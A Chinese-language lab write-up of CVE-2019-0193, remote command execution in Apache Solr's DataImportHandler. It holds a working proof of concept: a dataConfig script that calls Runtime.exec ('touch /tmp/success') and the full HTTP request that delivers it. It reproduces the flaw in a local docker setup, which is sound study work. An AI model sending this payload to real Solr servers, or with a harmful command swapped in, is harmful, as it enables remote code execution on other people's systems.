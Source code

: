 # （CVE-2019-0193）Apache Solr 远程命令执行漏洞

> 原文：[http://book.iwonder.run/0day/Apache/6.html](http://book.iwonder.run/0day/Apache/6.html)

## 一、漏洞简介

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在 Apache Solr 的 DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的 DIH 配置都可以通过外部请求的 dataConfig 参数来设置。由于 DIH 配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

## 二、漏洞影响

## 三、复现过程

![image](img/7b86119fe70955a302f3483ef7482b01.png)

如上图所示，首先打开刚刚创建好的 test 核心，选择 Dataimport 功能并选择 debug 模式，填入以下 POC：

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig> 
```

点击 Execute with this Confuguration 会发送以下请求包：

```
POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
Host: localhost:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 679
Connection: close
Referer: http://localhost:8983/solr/
Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport 
```

执行 docker-compose exec solr ls /tmp，可见/tmp/success 已成功创建：

![image](img/1ed1bb4b81a1a3c3230a5193d447c5be.png)


